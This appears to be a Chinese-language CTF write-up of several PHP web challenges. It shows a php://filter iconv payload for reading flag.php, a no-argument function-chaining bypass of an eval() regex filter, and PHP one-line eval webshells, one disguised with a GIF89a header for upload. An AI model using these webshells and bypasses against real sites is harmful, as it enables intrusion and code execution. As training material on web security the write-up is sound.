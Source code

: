 文件包含漏洞，过滤了base和rot，换一个过滤器就可以

```php
php://filter/convert.iconv.utf-8.utf-16/resource=flag.php
```

### R!!C!!E!!

题目

![image-20231019180414346](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231019180414346.png)

说是泄露了信息，用githack进行恢复

![image-20231019180656607](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231019180656607.png)

有一个`bo0g1pop.php`

```
<?php
highlight_file(__FILE__);
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {
    if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){
        eval($_GET['star']);
    }
}
```

![image-20231019181017538](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231019181017538.png)

如果传进去的值是传进去的值是字符串接一个`()`，那么字符串就会被替换为空。如果（递归）替换后的字符串只剩下`;`，代码就会被执行

```php
getallheaders() //取出所有http请求头信息，返回一个数组
array_flip() //函数用于反转/交换数组中所有的键名以及它们关联的键值
array_rand() //函数返回数组中的随机键名，或者如果您规定函数返回不只一个键名，则返回包含随机键名的数组
```

![image-20231019183349732](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231019183349732.png)

### Upload again!

上传图片一句话木马

```php
<?php eval($_POST[1]); ?>
```

发现被过滤了

```javascript
GIF89a
<script language="php">
eval($_POST['a']);
</script>
```
